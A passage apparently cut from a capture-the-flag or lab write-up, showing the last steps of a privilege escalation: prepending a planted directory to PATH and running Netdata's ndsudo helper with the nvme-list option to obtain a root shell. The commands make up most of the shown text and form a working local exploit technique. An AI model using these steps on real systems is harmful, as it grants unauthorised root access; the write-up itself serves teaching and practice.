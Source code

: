 ```bash 
export PATH=$HOME/evilsal:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
4. Now, simply run the the `ndsudo` with the `nvme-list` option:

```bash 
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

This will grant us a root shell, no questions asked.

>Rooted. Done. 
{: .prompt-tip }












